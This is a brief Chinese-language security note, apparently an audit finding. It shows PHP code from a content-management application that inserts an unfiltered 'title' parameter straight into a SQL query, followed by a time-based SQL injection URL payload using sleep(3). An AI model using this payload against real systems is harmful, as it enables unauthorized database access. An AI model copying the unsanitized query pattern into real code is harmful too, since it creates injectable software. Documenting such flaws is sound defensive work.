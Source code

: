 ```bash
$title = I('title');
        // dump($title);exit;
        if (!empty($title)) {
            $map['title'] = array(
                'like',
                "%$title%"
            );
            $where .= " and `title` like '%$title%'";
        }
        $count = M()->query("SELECT COUNT( distinct `group_id`) AS tp_count FROM `wp_material_news` WHERE {$where} LIMIT 1");
```

​ title 没有被任何过滤直接代入了查询中

```bash
public/index.php/Material/Material/material_lists?title=-1'or sleep(3) --
```

就可以直接注入了
